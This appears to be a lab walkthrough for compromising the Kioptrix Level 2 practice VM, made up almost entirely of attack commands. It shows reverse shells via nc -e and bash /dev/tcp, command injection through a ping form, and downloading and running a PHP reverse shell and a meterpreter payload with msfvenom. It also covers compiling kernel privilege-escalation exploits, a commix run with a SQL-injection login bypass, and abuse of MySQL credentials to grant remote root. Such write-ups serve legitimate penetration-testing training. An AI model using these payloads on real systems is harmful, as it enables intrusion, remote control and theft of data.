 
### Network Configuration
```
--------------------         ------------------
|                  |---------|     Attacker   |
|      Router      |         |  192.168.50.6  |
|                  |         ------------------
|                  |         ------------------
|   192.168.50.1   |---------|     Victim     |
|                  |         |  192.168.50.3  |
--------------------         ------------------
```
Attacker
```
nc -lvp 5678
```
Victim
```
; /usr/local/bin/nc 192.168.50.6 5678 -e /bin/sh
OR
; bash -i >& /dev/tcp/192.168.50.6/5678 0>&1
```
```
cat /etc/redhat-release
CentOS release 4.5 (Final)

uname -a
Linux kioptrix.level2 2.6.9-55.EL

uname -mrs
Linux 2.6.9-55.EL i686
```
```
# searchsploit centos
# searchsploit 2.6.9
# searchsploit kernel 2.6 linux local | grep "CentOS\ 4"
```
### Method #1
```
ls /usr/share/webshells/
ls /usr/share/webshells/php/

cp /usr/share/webshells/php/php-reverse-shell.php ~

cat php-reverse-shell.php | grep "CHANGE THIS"
```
```
sed -i "s#$ip = '127.0.0.1';#$ip = '192.168.50.6';#" php-reverse-shell.php
sed -i "s#$port = 1234;#$port = 5678;#" php-reverse-shell.php

OR

sed -i "s#$ip = '127.0.0.1';  // CHANGE THIS#$ip = '192.168.50.6';#" php-reverse-shell.php
sed -i "s#$port = 1234;       // CHANGE THIS#$port = 5678;#" php-reverse-shell.php
```
```
cat php-reverse-shell.php | grep -e ^\$ip -e ^\$port

$ip = '192.168.50.6';  // CHANGE THIS
$port = 5678;       // CHANGE THIS
```

Attacker
```
python -m SimpleHTTPServer
```
Victim
```
127.0.0.1; wget -O /tmp/php-reverse-shell.php http://192.168.50.6:8000/php-reverse-shell.php
```
Attacker
```
nc -lnvp 5678
```
Victim
```
127.0.0.1; php /tmp/php-reverse-shell.php

uname -a && whoami
```
--------------------

#### Privilege Escalation
```
cat /etc/redhat-release
CentOS release 4.5 (Final)

uname -a
Linux kioptrix.level2 2.6.9-55.EL
```
```
# searchsploit kernel 2.6 linux local | grep "CentOS\ 4"
```

Attacker
```
cp /usr/share/exploitdb/exploits/linux/local/9545.c ~
OR
cp /usr/share/exploitdb/exploits/linux_x86/local/9542.c ~
```
Attacker
```
python -m SimpleHTTPServer
```
Victim
```
127.0.0.1; wget -O /tmp/php-reverse-shell.php http://192.168.50.6:8000/php-reverse-shell.php
```
Attacker
```
nc -lnvp 5678
```
Victim
```
127.0.0.1; php /tmp/php-reverse-shell.php
```
Victim
```
cd /tmp

wget -O 9545.c http://192.168.50.6:8000/9545.c
OR
wget -O 9542.c http://192.168.50.6:8000/9542.c

gcc 9545.c -o exploit ### OR 9542.c
chmod 755 exploit
./exploit

uname -a && whoami
```
### Method #2

Attacker
```
nc -lvp 5678
```
Victim
```
; /usr/local/bin/nc 192.168.50.6 5678 -e /bin/sh
OR
; bash -i >& /dev/tcp/192.168.50.6/5678 0>&1
```
Attacker
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.50.6 LPORT=4567 -f elf > shell.elf

cp ~/shell.elf /var/www/html

service apache2 start
```
Attacker
```
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LPORT 4567
set LHOST 192.168.50.6
run
```
Victim
```
wget -O /tmp/shell.elf http://192.168.50.6/shell.elf

chmod 777 /tmp/shell.elf
/tmp/shell.elf
```

### Method #3

Attacker
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.50.6 LPORT=5555 -f raw > backdoor.php.txt

cp ~/backdoor.php.txt /var/www/html
```
Attacker
```
use multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.50.6
set LPORT 5555
run
```
Victim
```
; cd /tmp && wget -O bd.php 192.168.50.6/backdoor.php.txt && php -f bd.php
```
Attacker
```
sessions -l

sysinfo

shell

uname -a; cat /etc/*-release; id; w
```
-------------------------

### Commix

https://github.com/commixproject/commix

https://github.com/commixproject/commix/wiki/Usage-Examples
```
apt-get install commix

rm -r /usr/share/commix/.output/*

commix --url="http://192.168.50.3/pingit.php" --data="ip=127.0.0.1&submit=submit" --auth-url="http://192.168.50.3/index.php" --auth-data="uname=%27+OR+1+--+&psw=&btnLogin=Login"

commix --url="http://192.168.50.3/pingit.php" --data="ip=127.0.0.1&submit=submit" --auth-url="http://192.168.50.3/index.php" --auth-data="uname=%27+OR+1+--+&psw=&btnLogin=Login" --file-write="/root/shell.php" --file-dest="/tmp/bd_commix.php" --os-cmd="php -f /tmp/bd_commix.php"
```
--------------------------

### MySQL
```
; cat index.php

; mysql -u john -phiroshima -e "USE mysql; SHOW tables;"
; mysql -u john -phiroshima -e "USE mysql; SELECT * FROM user;"
```
```
mysql -h 192.168.50.3 -u root
```
```
nmap 192.168.50.3 -sV -p 3306
```
```
; mysql -u root -phiroshima -e "USE mysql; GRANT ALL PRIVILEGES ON *.* TO 'root'@'192.168.50.6';"
```
```
nmap 192.168.50.3 -sV -p 3306
```
```
mysql -h 192.168.50.3 -u root

SHOW databases;
USE webapp; SHOW tables;
SELECT * FROM users;
```
```
find / -name ".mysql_history"

cat /root/.mysql_history
```

